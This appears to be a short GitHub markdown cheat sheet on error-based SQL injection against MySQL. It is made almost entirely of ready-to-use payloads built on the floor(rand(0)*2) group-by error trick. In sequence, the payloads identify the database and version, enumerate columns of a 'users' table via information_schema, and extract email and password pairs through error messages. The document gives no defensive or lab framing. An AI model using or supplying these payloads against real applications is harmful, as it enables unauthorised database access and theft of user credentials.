

# Advanced ++ Exploitation 

##Explanation of the Attack

This method will be used when there is only error message is displayed and no other information is not visible 




Creating error with critical information

```
select (rand(0)*2)x from comment group by x

select floor(rand(0)*2)x from comment group by x;

select count(*), floor(rand(0)*2)x from comment group by x;

select count(*),concat(version(),floor(rand(0)*2))x from comment group by x;
```


###1. Identifying the database
```
admin' and (select 1 from a)-- Identifying the database

```


###2. Identifying versions etc..
```
admin' and (select 1 from(select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x) a)--  - Your own error message 

admin' and (select 1 from(select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x) a)--  - Your own error message 
```


###3.Enumeration of the information using 
```
admin' AND (select 1 from (select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='users' LIMIT 1,1),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)b) -- 

admin' AND (select 1 from (select count(*),concat(0x3a,(select column_name from information_schema.columns where table_name='users' LIMIT 2,1),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)b) -- 

Username and Password ++++++++++++++++++++++++++++++++++++++
admin' AND (select 1 from (select count(*),concat(0x3a,( select concat(email,0x3a,password) from users limit 0,1),0x3a,floor(rand(0)*2))x from information_schema.tables group by x)b) -- 
```
